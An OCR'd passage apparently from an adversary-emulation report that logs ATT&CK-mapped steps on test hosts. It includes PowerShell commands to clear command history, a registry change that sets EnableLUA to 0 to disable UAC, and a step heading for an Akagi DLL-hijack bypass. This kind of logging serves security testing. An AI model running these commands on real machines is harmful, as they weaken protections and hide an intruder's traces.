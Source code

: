   Status: Success

  Start: 2024-09-13T17:12:11Z

  Finish: 2024-09-13T17:12:12Z

  Command: 
```powershell
Clear-History;Clear
```


## Host: ACME-HH-ESO


  Technique: Indicator Removal on Host: Clear Command History

  PID: 10164

  Status: Success

  Start: 2024-09-13T17:15:40Z

  Finish: 2024-09-13T17:15:40Z

  Command: 
```powershell
Clear-History;Clear
```


# Steps

## Host: ACME-HH-ZYQ (paw: kwmxux)

###   Description: Set a registry key to allow UAC bypass


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Failed

  PID: 5212

  Start: 2024-09-13T17:39:40Z

  Command: 
```powershell
New-ItemProperty -Path HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system -Name EnableLUA -PropertyType DWord -Value 0 -Force
```


###   Description: Dll Hijack of WOW64 logger wow64log.dll using Akagi.exe


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}
